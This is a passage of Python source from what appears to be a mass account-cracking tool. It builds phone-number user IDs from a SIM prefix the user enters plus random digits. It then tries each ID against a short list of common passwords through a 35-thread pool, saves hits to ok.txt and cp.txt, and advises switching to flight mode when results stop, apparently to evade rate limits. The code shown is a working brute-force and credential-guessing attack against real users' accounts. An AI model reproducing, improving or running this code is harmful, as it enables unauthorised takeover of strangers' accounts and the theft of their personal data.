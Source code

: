 	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#_____
def random_number5():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode+guru,'khan123456','janjan','jan12345','khan1122','khan12']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def random_number6():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE :92318,92345,92323,92306.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	linex()
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru